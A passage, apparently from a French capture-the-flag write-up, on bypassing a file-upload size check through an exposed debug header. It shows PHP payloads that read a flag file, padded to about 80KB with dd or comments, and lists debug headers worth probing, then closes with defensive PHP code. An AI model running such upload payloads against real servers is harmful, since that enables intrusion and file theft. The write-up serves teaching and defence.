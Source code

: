 Le fait de révéler `X-Debug-Mode: False` dans la réponse est une forme d'**Information Disclosure** :
- Révèle l'existence d'un mode debug
- Indique qu'il peut être activé
- Facilite grandement l'exploitation

### Variantes et techniques similaires

#### Variante 1 : Padding pour atteindre 80KB

Si le header debug n'existait pas, on pourrait **ajouter du padding** :

```bash
# Créer un fichier de 80KB avec padding
{
  echo '<?=readfile("FLAG_4.txt")?>'
  dd if=/dev/zero bs=1 count=81893  # Padding pour atteindre 80KB
} > padded.php
```

**Problème** : Le PHP exécutera le code même avec le padding binaire après.

#### Variante 2 : Commentaires PHP pour augmenter la taille

```php
<?=readfile("FLAG_4.txt")?>
/*
<?php
// Padding avec des commentaires pour atteindre 80KB
// <?php echo str_repeat("A", 80000); ?>
*/
```

#### Variante 3 : Headers alternatifs à tester

Autres headers de debug courants à essayer :
- `X-Debug: true`
- `X-Admin-Mode: 1`
- `X-Bypass-Validation: enabled`
- `X-Testing-Mode: on`
- `X-Dev-Mode: true`

### Protection recommandée

```php
// Code sécurisé
// 1. Ne jamais exposer de headers de debug en production
if (getenv('ENVIRONMENT') !== 'production') {
    header('X-Debug-Mode: False'); // OK en dev/staging
}

// 2. Authentification requise pour le mode debug
$debug_mode = false;
if (isset($_SERVER['HTTP_X_DEBUG_MODE'])) {
    // Vérifier un token secret
    $debug_token = $_SERVER['HTTP_X_DEBUG_TOKEN'] ?? '';
    if (hash_equals(getenv('DEBUG_TOKEN'), $debug_token)) {
        $debug_mode = true;
    }
}

// 3. Taille maximale ET minimale avec des limites raisonnables
$filesize = $_FILES['file']['size'];
if ($filesize < 100 || $filesize > 5000000) { // 100 bytes min, 5MB max
    die('Taille de fichier invalide');
}

```